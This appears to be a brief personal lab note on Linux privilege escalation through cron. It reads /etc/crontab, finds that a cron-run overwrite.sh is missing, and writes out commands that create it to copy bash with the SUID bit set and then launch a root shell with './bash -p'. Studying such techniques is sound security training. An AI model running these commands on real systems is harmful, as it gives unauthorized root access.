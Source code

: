 # Detection
---
- `cat /etc/crontab`
	- ![[Pasted image 20250430151627.png]]
- ![[Pasted image 20250430151653.png]]

# Exploitation
---
- `overwrite.sh`does not exist, so we can created it 
	- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
	- `chmod +x overwrite.sh`
- ![[Pasted image 20250430152454.png]]
- `./bash -p`
	- ![[Pasted image 20250430152517.png]]